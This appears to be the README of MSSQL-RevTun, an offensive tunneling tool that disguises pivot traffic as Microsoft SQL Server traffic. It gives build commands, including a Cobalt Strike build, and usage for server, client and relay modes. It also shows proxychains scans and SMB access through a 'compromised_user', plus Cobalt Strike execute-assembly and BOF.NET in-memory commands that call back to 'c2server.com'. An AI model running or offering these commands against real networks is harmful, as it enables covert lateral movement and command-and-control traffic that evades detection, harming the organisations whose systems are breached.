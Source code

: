 # MSSQL-RevTun

MSSQL-RevTun is a tool for network pivoting. It operates similar to chisel, ligolo and ssh tunneling. The main difference is that it uses the Microsoft SQL Server TDS protocol to make the network traffic look like MSSQL traffic.

It operates in 3 modes:
- **Server**: Listens on a port (1433 by default). Once it receives a client connection, it opens another port (1080 by default). Through the second port, we can use proxychains/tun2socks to forward all traffic though the client.
- **Client**: Connects to server or to the relay using authentic MSSQL authentication. Forwards all traffic from the server.
- **Relay**: Relays the traffic from the client to the server. Use case: the client cannot directly reach the external server but can reach the relay machine.

## Building

### Quick Build
```powershell
.\build-multi.ps1  # Builds .NET Framework 4.8, Linux x64, Windows x64
```

### Manual Builds
```bash
# Windows x64
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true

# Linux x64  
dotnet publish -c Release -f net8.0 -r linux-x64 --self-contained true -p:PublishSingleFile=true

# Cobalt Strike (.NET Framework 4.8)
dotnet build -c Release -f net48 -p:Platform=AnyCPU

# Windows x64 optimized for minimal size (remove the net48 references from revtun.csproj before compiling this way)
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true -p:EnableCompressionInSingleFile=true -p:PublishTrimmed=true
```

## Usage

### Server
```bash
./revtun server --password testpass
```

### Client 
```bash
./revtun client --host target-server.com --password testpass
```

### Relay (Traffic Forwarding)
```bash
./revtun relay --host target-server.com --debug
```

### Using SOCKS Proxy
```bash
proxychains nmap -sT 192.168.1.0/24
proxychains smbclient -U compromised_user //target.internal.fileserver/Share
```

## Cobalt Strike Integration

### execute-assembly (not opsec in default config)
```bash
# Client from internal network  
execute-assembly revtun.exe client --host [internal-compromised-host/external-sql-server] --password testpass

# Relay on pivot host
execute-assembly revtun.exe relay --host [external-sql-server] 
```

### BOF.NET (in memory execution without creating new processes)
#### Project
Original: https://github.com/williamknows/BOF.NET
Can run EXEs: https://github.com/williamknows/BOF.NET

#### Requirements
1. Build the BOF.NET DLL (requires .NET Framework 3.5 SP1): 
```
BOF.NET\managed\BOFNET.sln
```
2. Build object files. (instructions in github project)
3. Place all files in one folder:
```txt
bofnet.cna
BOFNET.dll
bofnet_execute.cpp.x86.obj
bofnet_execute.cpp.x64.obj
```
4. Import `bofnet.cna` into Cobalt Strike.

#### Run
```
# initialise BOF.NET
bofnet_init

# Load the .NET assembly
bofnet_load /path/to/revtun.exe

# (Optionally) list the loaded assemblies to check the name
bofnet_listassemblies

# Run the assembly. Note: the beacon will not call back after this.
bofnet_executeassembly revtun client -h c2server.com --password testpass
```

#### Reference
https://williamknowles.io/bofnet_executeassembly-native-in-process-execution-of-net-assemblies-in-cobalt-strike/

## Command Options
```
SERVER OPTIONS:
  --password <pass>          Password for authentication (REQUIRED)
  --port, -p <port>          MSSQL server port (default: 1433)
  --proxy-port <port>        Proxy listener port (default: 1080)
  --bind <address>           Bind address (default: 0.0.0.0)
  --verbose, -v              Enable verbose logging
  --require-encryption       Require TLS encryption for all connections
  --no-encryption            Disable TLS encryption support

CLIENT OPTIONS:
  --password <pass>          Password for authentication (REQUIRED)
  --host, -h <hostname>      Server hostname (default: localhost)
  --port, -p <port>          Server port (default: 1433)
  --username, -u <user>      SQL username (default: sa)
  --database, -d <db>        Database name (default: master)
  --auto-exit                Exit after connection test
  --verbose, -v              Enable verbose logging
  --debug                    Enable debug output (shows all messages)
  --encrypt                  Request TLS encryption (default: enabled)
  --no-encrypt               Disable TLS encryption
  --require-encryption       Require TLS encryption (fail if not supported)

RELAY OPTIONS:
  --port, -p <port>          Relay listener port (default: 1433)
  --bind <address>           Bind address (default: 0.0.0.0)
  --host, -h <hostname>      Target server hostname (default: localhost)
  --server-port <port>       Target server port (default: 1433)
  --verbose, -v              Enable verbose logging
  --debug                    Enable debug output (shows TDS packet details)
```
